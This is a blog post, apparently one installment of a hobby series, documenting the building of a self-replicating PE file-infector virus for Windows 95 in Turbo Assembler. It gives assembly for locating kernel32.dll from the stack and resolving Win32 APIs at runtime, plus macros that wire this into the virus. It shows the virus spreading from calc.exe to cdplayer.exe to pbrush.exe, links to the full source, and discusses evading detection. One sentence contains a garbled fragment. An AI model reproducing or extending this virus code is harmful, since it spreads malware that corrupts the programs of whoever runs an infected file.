










Welcome back! If this is your first visit to VeXation you may want to start by reading about <a href="/welcome">the project</a>, the <a href="/setup">development environment</a>, the work in progress <a href="/pe-infector-basics">PE infector virus</a>, or the previous post <a href="/delta-offset">delta offsets</a>.

# Continued Recap

At the end of the <a href="/delta-offset">last post</a> I completed [`pijector`](https://github.com/cpu/vexation/tree/master/pijector), an updated version of [`minijector`](https://github.com/cpu/vexation/tree/master/minijector). `pijector` is a PE executable file infector virus that can add its code to `.exe` files found in the same directory by adding a new section to the infected target. The injected code is self-contained and position independent.

There are two big shortcomings with `pijector` that prevent it from being a functional virus. In generation 1+:

1. The way the virus code uses Win32 API functions will not work - a layer of indirection was broken and the first API function call will crash.
1. The original entrypoint of the infected program is never called. The host program is effectively broken by the infection.

Today I'll describe how I worked through solving the Win32 API problems. With that out of the way I'll be in a good position to describe how I handled the original entrypoint problem in a future post.

Let's jump right in!

# Understanding the problem

To understand why the Win32 API function invocations in the `pijector` virus code were broken I started by comparing the execution of generation 0 and generation 1 in a debugger. By carefully stepping through the first win32 function call in the virus code in both generations and comparing the results I was able to build a picture of the problem.

## Generation 0

I started by running the generation 0 `pijector.exe` in `td32` and switching to the CPU view.



The first Win32 API function the `pijector` virus code uses is [`FindFirstFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findfirstfilea) exported from `C:\windows\system\kernel32.dll`.

In the source code it looks like:

```
call FindFirstFileA, eax, ebx
```

In the disassembly view it looks like:

```
push ebx
push eax
call PIJECTOR.0040165C
```

I was expecting that the call target would be a memory address somewhere in the `kernel32.dll` address space but the disassembly shows a target inside of `pijector`'s address space. Already the debugger is challenging my assumptions!

Seeing a call to an unknown address the first question I have is "what code is at `0x0040165C`"? One way to check that in `td32` is to "follow" the `call` by right clicking the line and choosing "Follow".



Now `td32` shows:

```
jmp [00403060]
```

So the call takes the debugger to a `jmp` instruction to the address specified at `0x00403060`. Choosing "Data" in the `td32` menu followed by "Inspect" pops up a window that I used to quickly peek at what address the `jmp` will go to before following it.



Entering `[00403060]` as the expression (just like in the disassembly) shows the `dword` hex value:

```
0x82C8F140
```

That looks more like what I was expecting initially: an address in `kernel32.dll`. Following the `jmp [00403060]` instruction confirms the debugger does end up in the `kernel32.dll` address space.



Now the disassembly shows:

```
push BFF77A18
jmp KERNEL32.BFF93BD3
```

Very interesting! It's already pretty clear that there is some indirection between the virus code's `call`s to Win32 APIs and how control eventually ends up in the `kernel32.dll` address space.

Some of the addresses from this debugging experiment make more sense when compared with `tdump` output of both [`pijector`](https://github.com/cpu/vexation/blob/master/pijector/pijector.exe.tdump.txt) and [`kernel32.dll`](https://github.com/cpu/vexation/blob/master/apifind/kernel32.dll.tdump.txt).

First, the `jmp [00403060]` instruction is interesting because the [`tdump` of `pijector`](https://github.com/cpu/vexation/blob/master/pijector/pijector.exe.tdump.txt) shows that `0x00403060` is in the `.idata` section. 

```
Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags   
--  --------  --------  --------  --------  --------  --------
01  CODE      00001000  00001000  00000800  00000600  60000020 [CER]
02  DATA      00001000  00002000  00000000  00000E00  C0000040 [IRW]
03  .idata    00001000  00003000  00000200  00000E00  C0000040 [IRW]
04  .reloc    00001000  00004000  00000200  00001000  50000040 [ISR]

```

I could tell this quickly because subtracting the base address of `pijector.exe` (`0x00400000`) from the address in the `jmp` reference (`0x00403060`) gives `0x00003060`. Since `0x00003060` is larger than `0x00003000` (which is the `RVA` of the `.idata` section) and smaller than `0x00004000` (which is the `RVA` of the `.reloc` section) the pointer that's used for the `jmp` target must be in `.idata`.

The `push BFF77A18` instruction that `jmp [00403060]` brings execution to is interesting when matched up to a [`tdump` of `C:\windows\sytem\kernel32.dll`](https://github.com/cpu/vexation/blob/master/apifind/kernel32.dll.tdump.txt). (_Isn't it handy that `tdump` works with `.dlls` too?_)

In my `kernel32.dll`'s exports the `FindFirstFileA` function appears like so:

```
    0249    00007a18  FindFirstFileA
```

It has ordinal number 249 and the RVA `0x00007a18`. Adding the `kernel32.dll` base address `0xBFF70000` (more on finding that later) to the `FindFirstFileA` RVA gives  `0xBFF77A18` - the argument from the `push` instruction!

What does it all mean? In summary:

* `call FindFirstFileA` in generation 0 doesn't immediately call into `kernel32.dll` code.
* instead it calls a local address that `jmp`s to a memory address specified in a pointer in the `.idata` section
* the `jmp` takes execution into `kernel32.dll` where the exported `FindFirstFileA` function address gets pushed.

(_note: Some of the above is specific to `tasm32`/`tlink32` but in general it works similarly for other assemblers/linkers_).

Why so much indirection? One reason is it lets the operating system loader populate the `.idata` section with pointers to imported `kernel32.dll` functions without having to update each individual places in the code sections that call the imported functions.

(_note: For a more rigorous explanation of these mechanisms see the ["Peering inside the PE"](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)) MSDN article, particularly ["PE file Imports"](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-import) and ["PE File Exports"](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-exports)_)

Now that I have seen how the API function invocation works in generation 0 it was time to turn to the generation 1 code that crashes. Ignoring any other resources it's possible to start to see the problem based on what's known from stepping through generation 0. The indirection I saw relied on pointers in an `.idata` section but the virus code only creates one new `.ireloc` section in the target, nothing carries forward or corrects for the missing `.idata` pointers. I used the same process of following an API call in `td32` with the generation 1 `calc.exe` to verify that idea.

## Generation 1

Loading the infected generation 1 `calc.exe` in `td32` I saw the `call FindFirstFileA` Win32 API function call in the virus code a few instructions from the top, after the delta offset calculation. Similar to the Generation 0 disassembly the function call is a `call` to a memory address inside of `calc.exe`'s address space.



In generation 0 the disassembly was:

```
call PIJECTOR.0040165C
```

In generation 1 the disassembly is:

```
call 0041365C
```

The difference in address (`0x0040165C` vs `0x0041365C`) is explained by the location of the code. In both cases the `call`'s relative target was `0x0000065C` but the location of the `call` itself differed.

In generation 0 the executable's base address was `0x00400000` and the `CODE` section's RVA was `0x00001000`. If I add the base address, the section RVA, and the relative target I get the generation 0 call target: `0x00400000` + `0x00001000` + `0x0000065C` = `0x0040165C`.

In generation 1 the executable's base address was still `0x00400000` but the `.ireloc` section that the `call` instruction is in has an RVA of `0x00013000`. If I add the base address, the section RVA, and the relative target again I get the generation 1 call target: `0x00400000` + `0x00013000` + `0x0000065C` = `0x0041365C`.

So far execution has looked the same. Moving on to following the `call` will answer the question "What code is at `0x0041365C` in `calc.exe`?".



The disassembly shows a `jmp` instruction and its target (`[00403060]`) looks the same as in generation 0. So far so good.

```
jmp [CALC.00403060]
```

Using the data inspector window again the address at `[00403060]` for the `jmp` target can be checked:



This time it shows a DWORD with the hex value:

```
0xFE830574
```

This address looks totally wrong and it isn't the same target that Generation 0 jumped to. A smoking gun!

Letting the debugger follow the `jmp [CALC.00403060]` instruction sends it to la-la land.





The `jmp` causes an access violation and `calc.exe` crashes shortly after.

# What to do?

I./td32.gen1.5.png)t's clear the indirection used by generation 0 is a problem in generation 1+. The target of the `jmp` in the indirected `kernel32.dll` API call is read from an address that only made sense in generation 0. Similar to the problem of variable references across multiple sections [that I tacked in the delta offset post](https://dev.to/cpu/a-virus-writers-best-friend-the-delta-offset-1hle) the easiest solution is one of simplification: stop using the system loader to resolve `kernel32.dll` function references and stop relying on pointers in the `.idata` section (or equivalent for other assemblers).

## Hard-coding

The earliest win32 viruses avoided the system loader by hard-coding the addresses of the DLL functions they used. Imagine if instead of using `call FindFirstFileA` the `pijector` code instead used `call 0xBFF77A18`. As long as the `kernel32.dll` export for `FindFirstFileA` was _always_ at RVA `0x00007A18` and `kernel32.dll` was _always_ loaded at `0xBFF70000` this would be smooth sailing. Of course in practice all of these things change. Sometimes two matching Windows versions with different locales can have differences that would break these assumptions!

## DIY

Another way to approach this problem (and the route I chose) is to have the virus code act like its own little linker/loader and find the addresses of the DLL functions required at runtime. This turns out to be a fun way to get some hands on experience playing with concepts from [dynamic linking](https://en.wikipedia.org/wiki/Dynamic_linker) and [operating system loaders](https://en.wikipedia.org/wiki/Loader_%28computing%29).

In Windows dynamic linking is the domain of [Dynamic Link Libraries](https://support.microsoft.com/en-us/help/815065/what-is-a-dll) (.dlls). The best part is that DLLs are implemented as PE executables! Having already written x86 ASM for manipulating PE metadata its straight forwad to get right into working with the `kernel32` DLL. That's also the reason that the trusty `tdump` tool has no problem with DLLs.

There's one other handy Windows trick that the virus code can use to do its runtime linking of external DLL functions: [`kernel32.GetProcAddress`](https://docs.microsoft.com/en-us/windows/desktop/api/libloaderapi/nf-libloaderapi-getprocaddress). This is an exported function from `kernel32.dll` that finds the address of an exported DLL function given its name and the DLL's base address.

That presents a nice short-cut. All the virus has to do is somehow find `kernel32.dll` and the address of the `GetProcAddress` function and from there its easy to find any other required API addresses in a way that won't rely on the `.idata` section or any hardcoded offsets.

# Exploring the solution

Since the task of finding win32 API function addresses from `kernel32.dll` at runtime is fairly self-contained I decided to start by experimenting with a stand-alone program separate from the PE infector virus code. Once I had a good solution I integrated it back into the virus code.

I decided to call the standalone program `apifind` since that's what it was going to do. At a high level the `apifind` code:

1. Finds the `kernel32.dll`'s base address
1. Finds `kernel32.dll`'s `IMAGE_EXPORT_DIRECTORY` structure
1. Finds the index of `GetProcAddress` in `IMAGE_EXPORT_DIRECTORY.AddressOfNames`
1. Uses the index to find the `GetProcAddress` ordinal in `IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals`.
1. Uses the ordinal of `GetProcAddress` to find the export RVA in `IMAGE_EXPORT_DIRECTORY.AddressOfFunctions`
1. Uses the discovered RVA of `GetProcAddress` to find other required APIs (e.g. `kernel32.FindFirstFileA`.

The code for `apifind` is available [in the VeXation Github repo](https://github.com/cpu/vexation/tree/master/apifind).

## Where's kernel32.dll?

The first thing `apifind` needs to do is find the base address where `kernel32.dll` is loaded.

If you're familiar with more modern (Windows 2000/NT+) malware you might know of a trick for this based on chasing pointers from the Process Environment Block (PEB) to a list of loaded modules. On Windows 2000/NT/XP `kernel32.dll`'s location in this list was predictable and so offered a reliable way to find the base address dynamically. Since I'm targeting Windows 95 it's totally not applicable and another approach needs to be taken.

The "trick" I used instead is an old one. The first reference I saw was in [29A issue 04](http://dsr.segfault.es/stuff/website-mirrors/29A/29A-4.html) from 1999 and an article by "LethalMind" called ["RETRIEVING API'S ADRESSES"](http://dsr.segfault.es/stuff/website-mirrors/29A/29a-4/29a-4.227). I suspect the trick predates this article as well. (_Can you even call it a "trick"? On some level it's just The Way Things Work_).

The core idea is to take advantage of the fact that it's `kernel32.dll` that calls every program's entrypoint when it is first started by the operating system. More specifically it's the `kernel32.dll`'s `CreateProcess` function that calls the program's entrypoint. Since the virus code replaces the infected program's original entrypoint I know that at the start of the virus code's execution the return address on the top of the stack will be pointing back into `kernel32.dll` somewhere.

```
@@findkernel32:
  ; Put the dword value from the top of the stack into esi. This is the return
  ; address for the kernel32.CreateProcess function call one frame above us and
  ; points somewhere in kernel32.dll.
  mov esi, dword ptr [esp]
```

Since `kernel32.dll` is a DLL and DLLs are portable executables I know what the start of `kernel32.dll` will look like: It should have a DOS header with the magic `MZ` bytes. Further, I know it will be section aligned in memory. All of that PE knowledge from previous articles really comes in handy! :-)

Using the return address from the stack the virus code can search backwards by the size of a section, looking for the DOS header magic bytes. When it finds a section aligned address that has the expected header it will be the base address of `kernel32.dll`.

```
  ; We know the DLL is section aligned so clear out the lower byte of ESI to
  ; begin the search at the section start.
  and esi, 0FFFF0000h

@@findpe:
  ; If ESI points at the value 'MZ' it indicates the section contains
  ; a PE executable and we know its the base addr of kernel32.dll
  cmp word ptr (IMAGE_DOS_HEADER [esi]).Magic, IMAGE_DOS_SIGNATURE
  je @@findgetprocaddr
  ; Otherwise move back by the section alignment and try checking 
  ; for the DOS header magic bytes again.
  sub esi, PE_SECTION_ALIGNMENT
  jmp @@findpe

@@findgetprocaddr:
; If execution gets here we found the kernel base address in ESI. Woohoo
```

One _disadvantage_ of this technique is that it only works if the virus code is executed **before** the host program code. If the real program is run first then the state of the stack will be unpredictable. I might have to revisit this strategy in the future if I mess around with more sophisticated entrypoint obfuscation but for now it will work reliably.

## DLL Exports

Knowing the base address of where `kernel32.dll` is loaded lets me move on to `apifind`'s next challenge: finding the `GetProcAddress` function export in `kernel32.dll`.

The PE format is responsible for describing how a DLL exports a function for consumption by another program. The "Peering inside PE" article's section on ["PE File Exports"](https://docs.microsoft.com/en-us/previous-versions/ms809762(v=msdn.10)#pe-file-exports) was an invaluable resource for understanding PE exports.

To summarize, `kernel32.dll` has an `IMAGE_EXPORT_DIRECTORY` structure that is predictably located (it's always the first data directory after the section table of the PE structure). Inside of the `IMAGE_EXPORT_DIRECTORY` structure are pointers to three arrays:

1. `AddressOfFunctions` - which holds pointers to the RVA of each exported DLL function.
1. `AddressOfNames` - which holds pointers to the null terminated name of each exported DLL function.
1. `AddressOfNameOrdinals` - which holds the ordinal (think ID number?) of each exported DLL function.

All three arrays have the same number of entries and can be accessed in parallel. That is, if I can find the index of a specific function name in `AddressOfNames` I can use that index to find the ordinal in `AddressOfNameOrdinals` and then the function pointer in `AddressOfFunctions` using the ordinal.

The [x86 assembly that accomplishes the above](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apifind/apifind.asm#L94-L199) is a little bit gnarly but I did my best to comment it thoroughly. At a high level the code:

1. Finds the `kernel32.dll` `IMAGE_EXPORT_DIRECTORY` structure.
1. Loops through `AddressOfNames` to find the entry matching `"GetProcAddress\0"`
1. Uses the matching offset in `AddressOfNames` to find the ordinal for `GetProcAddress` in `AddressOfNameOrdinals`
1. Uses the ordinal for `GetProcAddress` to find the memory address of the exported function in `AddressOfFunctions`.

Once the address of the `GetProcAddress` function from `kernel32.dll` is known the fun can really begin.

## Link it yourself

The virus code from `pijector` uses a handful of `kernel32.dll` functions (`FindFirstFileA`, `FindNextFileA`, `lstrcpy`, `CreateFileA`, etc). Using `GetProcAddress` makes for an easy way to find the address of each without needing to do as much work spelunking the `kernel32.dll` export table.

To find the address of `FindFirstFileA` the `apifind.asm` code uses the discovered `GetProcAddress` address (held in a var `GetProcAddress`):

```
  ; Put the kernel32.dll base address in ebx
  mov ebx, [kernel32Base]
  ; Put the offset of the null terminated string "FindFirstFileA\0" into ecx
  mov ecx, offset szFindFirstFileA
  ; Invoke GetProcAddress(ebx, ecx) by putting the GetProcAddress function's
  ; address in eax and calling it.
  mov eax, [GetProcAddress]
  call (type procGetProcAddress) PTR eax, ebx, ecx
  ; If the return was zero there was an error
  or eax, eax
  jz @@exit
  ; Otherwise save the discovered function address for FindFirstFileA in a var
  mov [FindFirstFileA], eax
```

For every function the virus wants to "link" it needs two things:

1. The name of the API in a null terminated string (e.g. `szFindFirstFileA` above holds `"FindFirstFileA\0"`).
1. A four byte var to hold the function pointer (e.g. `FindFirstFileA` above)

I chose the most naive solution for the first part and included the literal strings in the virus code. That's an obvious tell for AV since the virus code will now have function name strings like `"GetProcAddress\0"`,`"FindFirstFileA\0"` [embedded in each infected file](https://github.com/cpu/vexation/blob/master/apisafejector/apisafejector.exe.strings.txt) that aren't present in the file's PE imports. There are lots of various tricks for working around this but for now I'm ignoring AV "stealth".

One of the other challenges I encountered was finding a way to use raw function pointers with TASM while still having it handle the `stdcall` calling convention and argument checking. The solution to this was adding explicit `PROCDESC` types to reference for each `call` of a raw pointer.

You might notice that weird `call` syntax in the fragment above. It relies on a `procGetProcAddress` `PROCDESC`. In brief `PROCDESC` is a bit of TASM syntax that lets me give the assembler a description of the function I'm calling so it can use the correct calling convention and check the arguments. For `GetProcAddress` the `procGetProcAddress` `PROCDESC` looks like:

```
procGetProcAddress PROCDESC stdcall baseAddr:DWORD,name:DWORD
```

It indicates that the `stdcall` calling convention should be used and there are two `DWORD` arguments: the base address of a DLL and a pointer to the name of the exported function to lookup.

The `apifind.asm` code uses a similar `PROCDESC` to invoke the `kernel32.FindFirstFileA` function by the address found with `GetProcAddress`:

```
procFindFirstFileA PROCDESC stdcall fileName:DWORD,findData:DWORD

<snipped>

@@tryAPI:
  ; eax == lpFileName argument == "*.exe\0"
  mov eax, offset findFilter
  ; ebx == lpFindFileData argument
  mov ebx, offset findData
  ; edx == resolved address of FindFirstFileA in kernel32.dll
  mov edx, [FindFirstFileA]
  ; Invoke FindFirstFileA( eax, ebx ) by calling edx
  call (type procFindFirstFileA) PTR edx, eax, ebx
  ; If we got an invalid handle from FindFirstFileA that means there were no EXEs 
  ; in the directory.
  cmp eax, INVALID_HANDLE_VALUE
  je @@exit
  ; Otherwise an exe was found and the handle should be saved
  mov [findHandle], eax
```

End-to-end this is certainly more verbose than the simple `call <api>` that normal programs can get away with but virus code is "special" ;-D

# Convenient Macros

Tackling the clunkyness was my next task. I decided it made sense to write some quick macros that would make it easier to find required API addresses and invoke them. Borland's Macro language is pretty powerful and I was able to get some decent results quickly even as a complete assembly language programming novice.

To make it easy to see how the macros replaced the initial code I made a separate [`apifind2`](https://github.com/cpu/vexation/tree/master/apifind2) project that took the code from [`apifind1`](https://github.com/cpu/vexation/tree/master/apifind) and introduced some new macros.

I created four macros, each addressing one of the four parts involved in the process of using an exported DLL function resolved by the virus at runtime:

1. Making a name variable and a pointer variable for each API.
1. Describing the API procedure and its arguments.
1. Populating the pointer variable by finding the name.
1. Invoking the described procedure using the pointer.

## REQUIRED\_API

The macro I wrote for declaring a name variable and a pointer variable for each API is called `REQUIRED_API`:

```
; REQUIRED_API is a macro that defines two vars:
;  1. a zero terminated API name
;  2. a pointer to the API function
; The pointer is populated at runtime by finding the
; API name in kernel32.dll using LINK_API
;
; e.g.
;
;   REQUIRED_API ExitProcess
;
; would result in:
;
;   szExitProcess DB "ExitProcess", 0
;   ExitProcess   DD 0
;
REQUIRED_API MACRO var:REQ
  ;; pointer to a null terminated string with the API name
  sz&var  DB "&var",0
  ;; pointer to the API function
  &var    DD 0
ENDM
```

## DESC\_RUNTIME\_API

The macro I wrote for generating a `PROCDESC` for each API is called `DESC_RUNTIME_API`:

```
; DESC_RUNTIME_API is a macro that creates a PROCDESC prefixed
; with "proc" for a given proc name. It's described as having the
; given arguments and using stdcall convention.
;
; e.g.
;
;   DESC_RUNTIME_API GetProcAddress,<baseAddr:DWORD,szName:DWORD>
;
; would result in:
;
;   procGetProcAddress PROCDESC stdcall baseAddr:DWORD,szName:DWORD
;
; NOTE(@cpu): Don't forget to use <> around the procedure's arguments
;             or they'll be treated as separate arguments to the macro
;             instead of one argument to the macro describing all of the
;             arguments for the procedure's PROCDESC.
;
DESC_RUNTIME_API MACRO name:REQ,args
  proc&name PROCDESC stdcall &args
ENDM
```

## LINK\_API

The macro I wrote to find the `kernel32.dll` function address for a `REQUIRED_API` is called `LINK_API`:

```
; LINK_API finds the given REQUIRED_API in kernel32.dll by its sz pointer
; using GetProcAddress. The API address is saved in the REQUIRED_API
; function pointer for use with CALL_RUNTIME_API. A variable called
; kernel32Base is expected to hold the kernel32.dll base address
LINK_API MACRO var:REQ
    ; Add the kernel32.dll base address
    mov ebx, [kernel32Base]
    ; Put the offset of the null terminated string with the
    ; required API name into ecx
    mov ecx, offset sz&var
    ; Invoke GetProcAddress( kernel32.dll, sz&var )
    CALL_RUNTIME_API GetProcAddress, <ebx, ecx>, eax
    ; If the return was zero there was an error
    or eax, eax
    jz @@exit
    ; Otherwise save the function address into the pointer var
    mov [&var], eax
ENDM
```

## CALL\_RUNTIME\_API

The last macro is the one used to invoke functions previously described with `DESC_RUNTIME_API` and declared with `REQUIRED_API`. The `LINK_API` macro uses `CALL_RUNTIME_API` to call `GetProcAddress`.

```
; CALL_RUNTIME_API is a macro that calls a given API previously setup
; with REQUIRED_API, DESC_RUNTIME_API and LINK_API. The given reg will
; be used as a scratch register to load the address of the API to call.
; If none is provided, edx is used.
; 
; e.g.
;
;   CALL_RUNTIME_API GetProcAddress, <ebx,ecx>, eax
;
; would result in:
;
;   The address of GetProcAddress being put into eax, and called with the 
;   arguments ebx and ecx.
; 
CALL_RUNTIME_API MACRO name:REQ, args, reg:=<edx>
  mov &reg, [&name]
  call (type proc&name) PTR &reg, &args
ENDM
```

# Next Steps

With `apifind` and `apifind2` I have an effective way to find `kernel32.dll` and its exported functions at runtime without hard-coding anything. The next step is to take this code and integrate it back into the `pijector` virus code.

For this I created a project called `apisafejector`. Like the other projects so far its code is available [in the VeXation repo](https://github.com/cpu/vexation/tree/master/apisafejector).

I was able to use the code/macros from `apifind2` for `apisafejector` as-is with one small exception: all of the variable references needed to be adjusted to use the [delta offset](https://dev.to/cpu/a-virus-writers-best-friend-the-delta-offset-1hle).

For each of the Win32 APIs used by `pijector` the `apisafejector` code needed:

1. a `DESC_RUNTIME_API` line. See [`apisafejector.inc`](https://github.com/cpu/vexation/blob/master/apisafejector/apisafejector.inc) for these.
1. a `REQUIRED_API` line. See [the bottom of `apisafejector.asm`](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apisafejector/apisafejector.asm#L583-L603) for these.
1. a `LINK_API` line. See [the `@@linkapis` label in `apisafejector.asm`](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apisafejector/apisafejector.asm#L165-L181).

After these three pieces were in place I updated each of the existing `call <win32 api function>` instructions to use `CALL_RUNTIME_API <win32 api function>, <args>` instead.

# A virus at last!

It's finally time to see if the virus code can propagate itself beyond the first generation. To test the updated `apisafejector` virus I started by infecting `calc.exe` by using the `Makefile`'s run target with a clean build (without debug symbols):

```
make clean
make
make run
```


This launched `apisafejector.exe` in `td32` (remember it's a necessary hack to run the generation 0 executable this way or it will crash writing to a read-only section). Hitting `F9` let it complete its work infecting the only other `.exe` in the directory that can be opened for writing, `calc.exe`. The `apisafejector.exe` process terminated normally once it was complete.



I verified `calc.exe` was infected by checking the `tdump calc.exe` output to see that the entrypoint was updated and that there was a new `.ireloc` section added.

Before `tdump calc.exe` showed:
```
Entry RVA                0000534E

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags   
--  --------  --------  --------  --------  --------  --------
01  .text     000096B0  00001000  00009800  00000400  60000020 [CER]
02  .bss      0000094C  0000B000  00000000  00000000  C0000080 [URW]
03  .data     00001700  0000C000  00001800  00009C00  C0000040 [IRW]
04  .idata    00000B64  0000E000  00000C00  0000B400  40000040 [IR]
05  .rsrc     000015CC  0000F000  00001600  0000C000  40000040 [IR]
06  .reloc    00001040  00011000  00001200  0000D600  42000040 [IDR]
```

After:
```
Entry RVA                00013000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000096B0  00001000  00009800  00000400  60000020 [CER]
02  .bss      0000094C  0000B000  00000000  00000000  C0000080 [URW]
03  .data     00001700  0000C000  00001800  00009C00  C0000040 [IRW]
04  .idata    00000B64  0000E000  00000C00  0000B400  40000040 [IR]
05  .rsrc     000015CC  0000F000  00001600  0000C000  40000040 [IR]
06  .reloc    00001040  00011000  00001200  0000D600  42000040 [IDR]
07  .ireloc   00001000  00013000  00000A00  0000E800  E0000020 [CERW]
```

Since the virus only infects `*.exe` files in the same directory it's easy to make a little test lab to see if the first generation `calc.exe` infection is working. I simply made a new directory, copied in the infected `calc.exe` and then copied in a clean `cdplayer.exe` from the Windows directory.

```
mkdir test
cd test
copy ..\calc.exe
copy c:\windows\cdplayer.exe
```

Running `calc.exe` in this directory appears to do nothing: since the virus code doesn't call the original `calc.exe` entrypoint yet the program immediately exits after infecting `cdplayer.exe` and without showing any actual calculator GUI.

Checking the `tdump` output from `cdplayer.exe` shows that while it seemed like `calc.exe` exited without doing anything the infection did work! The entrypoint of `cdplayer.exe ` was changed and a new `.ireloc` section was added. The generation 1 `calc.exe` managed to successfully create a generation 2 infection in `cdplayer.exe`!

Before running the infected `calc.exe` `tdump cdplayer.exe` showed:
```
Entry RVA                0000DE00

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     0000CFC0  00001000  0000D000  00000400  60000020 [CER]
02  .sdata    00000004  0000E000  00000200  0000D400  D0000040 [ISRW]
03  .data     00000C10  0000F000  00000E00  0000D600  C0000040 [IRW]
04  .idata    0000135C  00010000  00001400  0000E400  40000040 [IR]
05  .CRT      00000014  00012000  00000200  0000F800  C0000040 [IRW]
06  .rsrc     00004618  00013000  00004800  0000FA00  40000040 [IR]
07  .reloc    000014F4  00018000  00001600  00014200  42000040 [IDR]
```

After it showed:
```
Entry RVA                0001A000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     0000CFC0  00001000  0000D000  00000400  60000020 [CER]
02  .sdata    00000004  0000E000  00000200  0000D400  D0000040 [ISRW]
03  .data     00000C10  0000F000  00000E00  0000D600  C0000040 [IRW]
04  .idata    0000135C  00010000  00001400  0000E400  40000040 [IR]
05  .CRT      00000014  00012000  00000200  0000F800  C0000040 [IRW]
06  .rsrc     00004618  00013000  00004800  0000FA00  40000040 [IR]
07  .reloc    000014F4  00018000  00001600  00014200  42000040 [IDR]
08  .ireloc   00001000  0001A000  00000A00  00015800  E0000020 [CERW]
```

To ensure this wasn't a fluke I tried making one more test directory to see if the generation 2 infection in `cdplayer.exe` could propagate.

```
mkdir test2
cd test2
copy ..\cdplayer.exe
copy c:\windows\pbrush.exe
```

Running the infected `cdplayer.exe` gave the same results as `calc.exe`. The program exited immediately and the `tdump` output for the `pbrush.exe` program shows the tell-tale signs of infection. Generation 2 successfully propagated to generation 3 in `pbrush.exe`!

Before running `cdplayer.exe` `tdump pbrush.exe` showed:
```
Entry RVA                0000100C

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000000AB  00001000  00000200  00000400  60000020 [CER]
02  .idata    000000E4  00002000  00000200  00000600  40000040 [IR]
03  .rsrc     0000071C  00003000  00000800  00000800  40000040 [IR]
04  .reloc    00000034  00004000  00000200  00001000  42000040 [IDR]
```

After it showed:
```
Entry RVA                00005000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000000AB  00001000  00000200  00000400  60000020 [CER]
02  .idata    000000E4  00002000  00000200  00000600  40000040 [IR]
03  .rsrc     0000071C  00003000  00000800  00000800  40000040 [IR]
04  .reloc    00000034  00004000  00000200  00001000  42000040 [IDR]
05  .ireloc   00001000  00005000  00000A00  00001200  E0000020 [CERW]
```

I have to admit I took particular joy in corrupting my favourite Windows utilities one by one.

# Conclusion

With `apisafejector` I've arrived at a from-scratch Borland Turbo Assembler PE infector virus that actually propagates itself. The last remaining challenge before a rough prototype of the core virus is complete is finding a way to invoke the infected program's original code. If all of the infected programs appear to be broken then the virus certainly won't evade detection for long.

I hope presenting my progress and general piece-wise development approach is interesting! I've only scratched the surface of what's possible and implemented the most basic techniques to keep making forward progress. I'm excited to gradually improve on the skeleton established so far. If nothing else this project has emphasized for me the difference between knowing how to do something in theory and actually doing it in practice :-)

In general it seems like I manage ~one post a month so I hope to see you in May for the next VeXation installment. As always, I would love to hear feedback about this project. Feel free to drop me a line on twitter ([@cpu](https://twitter.com/cpu)) or by email ([daniel@binaryparadox.net](mailto://daniel@binaryparadox.net)).
